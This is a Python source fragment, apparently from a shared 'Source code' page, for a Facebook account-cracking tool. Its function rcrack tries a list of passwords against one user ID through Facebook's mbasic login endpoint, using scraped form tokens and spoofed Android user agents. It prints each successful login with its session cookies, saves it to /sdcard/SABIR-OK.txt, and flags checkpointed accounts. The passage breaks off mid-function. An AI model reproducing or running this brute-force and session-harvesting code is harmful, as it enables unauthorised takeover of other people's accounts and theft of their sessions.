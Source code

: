 

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            pro = random.choice(ugen2)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb ={
    'authority': 'm.facebook.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'cache-control': 'max-age=0',
    # 'cookie': 'datr=ercKZdbGMkSjeBbXeYInQASJ; sb=ercKZQwR3Ipjq20xyaRgGWRN; m_pixel_ratio=1.75; wd=412x758; fr=01cuMzGE8ET7dKsuP..BlCrd6.KI.AAA.0.0.BlCs_E.AWU7PuTiVhQ',
    'dpr': '1.75',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"',
    'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.72"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-model': '"SM-A307GN"',
    'sec-ch-ua-platform': '"Android"',
    'sec-ch-ua-platform-version': '"11.0.0"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[SABIR-OK] \033[0;97m'+uid+'\033[1;32m | \033[0;93m' +ps+    '  \n[]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                sn4gdh9('/sdcard/SABIR-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('\r\r\33[1;30m[SABIR-CP] ' +uid+ ' | ' +ps+           '  \33[0;97m')
